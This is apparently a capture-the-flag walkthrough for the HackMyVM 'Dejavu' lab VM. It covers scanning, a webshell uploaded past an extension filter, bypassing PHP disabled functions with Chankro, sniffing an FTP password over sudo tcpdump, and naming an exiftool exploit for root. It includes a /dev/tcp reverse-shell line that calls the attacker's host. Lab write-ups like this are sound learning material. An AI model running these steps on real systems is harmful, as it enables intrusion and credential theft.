





# Dejavu
Linux VMTested on VirtualBox created by || InfayerTS
⏲️ Release Date // 2022-05-20

✔️ MD5 // 001c1bce1f44604c21f9622e2af21b26

☠ Root // 84

💀 User // 84


# Network Discovery (Find Ctf ip)

```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/dejavu]
└─$ fping -ag 192.168.1.1/24 2>/dev/null
192.168.1.1
192.168.1.2
192.168.1.101
192.168.1.107
# This case is 192.168.1.101
```

# Nmap 

```shell
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/dejavu]
└─$ nmap -sC -sV -p- 192.168.1.101                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-01 09:48 EDT
Nmap scan report for 192.168.1.101
Host is up (0.00028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:8f:5b:43:62:a1:5b:41:6d:7b:6e:55:27:bd:e1:67 (RSA)
|   256 10:17:d6:76:95:d0:9c:cc:ad:6f:20:7d:33:4a:27:4c (ECDSA)
|_  256 12:72:23:de:ef:28:28:9e:e0:12:ae:5f:37:2e:ee:25 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))     
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.59 seconds
```

# Gobuster (Fuzzing port 80 )

```bash
┌──(kali💀kali)-[~/Documents/CTF/hackmyvm/dejavu]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://192.168.1.101/' -x php,txt,html,bak,jpg,jpeg,png,bck,py 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.101/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,bak,png,py,txt,html,jpg,jpeg,bck
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 10918]
/.html                (Status: 403) [Size: 278]
/info.php             (Status: 200) [Size: 69958] # THIS IS SUS LETS SEE ...
Progress: 60553 / 2205610 (2.75%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 62780 / 2205610 (2.85%)
===============================================================
Finished
===============================================================
```

# PHPINFO()



```
From phpinfo can understand good infomations like misscounfigured functions or extentions to get RCE 
any way the page source gave below directory ...
```
> /S3cR3t


# S3cR3t

``` 
secret dir contains a php file that upload files and an directory that store,s uploaded files 
obviouslly it gonna abandom the .php files for provide security , then we should bypass it with similar 
extentions  , i use burpsuite
```

# BurpSuite (Uplaod file bypass)

>https://www.revshells.com/

```
For getting a shell from a site we need a webshell , 
for instance we use  php shells  just make one and save it on ur local machine and upload it 
while burpsuite is online .
```



```
Output show us this extention is not allowed , we need to find another to upload it 
bellow link is a good cheatsheet of bypass things and extentions check it out .

```
>https://book.hacktricks.xyz/pentesting-web/file-upload
>https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass



```
As you can see we can upload phtml files but cant get reverse shell
we should bypass disabled functions that phpinfo showed to us .
```
# Chankro (bypass disabled functions)

>https://github.com/TarlogicSecurity/Chankro/tree/master


```bash
git clone https://github.com/TarlogicSecurity/Chankro/tree/master
cd chankro
```

```bash
┌──(kali💀kali)-[~/…/CTF/hackmyvm/dejavu/Chankro]
└─$ python2 chankro.py --arch 64 --input reverse.sh --output 2024.phtml --path /var/www/html/                                                                      


     -=[ Chankro ]=-
    -={ @TheXC3LL }=-


[+] Binary file: reverse.sh
[+] Architecture: x64
[+] Final PHP: 2024.phtml


[+] File created!
```

``` 
--input reverse.sh  ===> is a simple bash shell :
sh -i >& /dev/tcp/192.168.1.107/1234 0>&1


--output 2024.phtml is our shell file that we gonna upload it to site ti give us a shell. (2024 is just a random name)  

--path /var/www/html the path when shell executed

Now we upload the 2024.phtml shell and open a listenter to port that reverse.sh pointed on and we,re in .

```

# WWW-Data




# Road to User ROBERT

# sudo -l 

```bash
www-data@dejavu:/$ sudo -l
Matching Defaults entries for www-data on dejavu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on dejavu:
    (robert) NOPASSWD: /usr/sbin/tcpdump
```

```
i read GTFOBINS but couldnt get shell from tcpdump 
but we can sniff the ports on machine to get info.
```

```bash
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
14:25:01.504823 IP (tos 0x0, ttl 64, id 7112, offset 0, flags [DF], proto TCP (6), length 60)
    localhost.53970 > localhost.ftp: Flags [S], cksum 0xfe30 (incorrect -> 0xd6a6), seq 691658933, win 65495, options [mss 65495,sackOK,TS val 817982403 ecr 0,nop,wscale 7], length 0
14:25:01.504834 IP (tos 0x0, ttl 64, id 0, offset 0, flags [DF], proto TCP (6), length 60)
    localhost.ftp > localhost.53970: Flags [S.], cksum 0xfe30 (incorrect -> 0x0de0), seq 1927395675, ack 691658934, win 65483, options [mss 65495,sackOK,TS val 817982403 ecr 817982403,nop,wscale 7], length 0
14:25:01.504844 IP (tos 0x0, ttl 64, id 7113, offset 0, flags [DF], proto TCP (6), length 52)
    localhost.53970 > localhost.ftp: Flags [.], cksum 0xfe28 (incorrect -> 0x349c), seq 1, ack 1, win 512, options [nop,nop,TS val 817982403 ecr 817982403], length 0
14:25:01.505706 IP (tos 0x0, ttl 64, id 40524, offset 0, flags [DF], proto TCP (6), length 72)
    localhost.ftp > localhost.53970: Flags [P.], cksum 0xfe3c (incorrect -> 0xda6f), seq 1:21, ack 1, win 512, options [nop,nop,TS val 817982404 ecr 817982403], length 20: FTP, length: 20
	220 (vsFTPd 3.0.3)
14:25:01.506210 IP (tos 0x0, ttl 64, id 7114, offset 0, flags [DF], proto TCP (6), length 52)
    localhost.53970 > localhost.ftp: Flags [.], cksum 0xfe28 (incorrect -> 0x3485), seq 1, ack 21, win 512, options [nop,nop,TS val 817982405 ecr 817982404], length 0
14:25:01.506247 IP (tos 0x10, ttl 64, id 7115, offset 0, flags [DF], proto TCP (6), length 65)
    localhost.53970 > localhost.ftp: Flags [P.], cksum 0xfe35 (incorrect -> 0x2676), seq 1:14, ack 21, win 512, options [nop,nop,TS val 817982405 ecr 817982404], length 13: FTP, length: 13
	USER robert
14:25:01.506251 IP (tos 0x0, ttl 64, id 40525, offset 0, flags [DF], proto TCP (6), length 52)
    localhost.ftp > localhost.53970: Flags [.], cksum 0xfe28 (incorrect -> 0x3477), seq 21, ack 14, win 512, options [nop,nop,TS val 817982405 ecr 817982405], length 0
14:25:01.506318 IP (tos 0x0, ttl 64, id 40526, offset 0, flags [DF], proto TCP (6), length 86)
    localhost.ftp > localhost.53970: Flags [P.], cksum 0xfe4a (incorrect -> 0xed2b), seq 21:55, ack 14, win 512, options [nop,nop,TS val 817982405 ecr 817982405], length 34: FTP, length: 34
	331 Please specify the password.
14:25:01.507351 IP (tos 0x10, ttl 64, id 7116, offset 0, flags [DF], proto TCP (6), length 52)
    localhost.53970 > localhost.ftp: Flags [.], cksum 0xfe28 (incorrect -> 0x3454), seq 14, ack 55, win 512, options [nop,nop,TS val 817982406 ecr 817982405], length 0
14:25:01.507392 IP (tos 0x10, ttl 64, id 7117, offset 0, flags [DF], proto TCP (6), length 70)
    localhost.53970 > localhost.ftp: Flags [P.], cksum 0xfe3a (incorrect -> 0xa521), seq 14:32, ack 55, win 512, options [nop,nop,TS val 817982406 ecr 817982405], length 18: FTP, length: 18
	PASS 9737bo0hFx4

```
>ssh:  robert 9737bo0hFx4 


# Road to ROOT


# sudo -l 

```bash
robert@dejavu:~$ sudo -l
Matching Defaults entries for robert on dejavu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on dejavu:
    (root) NOPASSWD: /usr/local/bin/exiftool

```

# CVE-2021-22204-exiftool

```
exif tool has a exploit download it from github 
abd change the exploit.py like the picture to give the shell and run it 
make a exploit.djvu
```


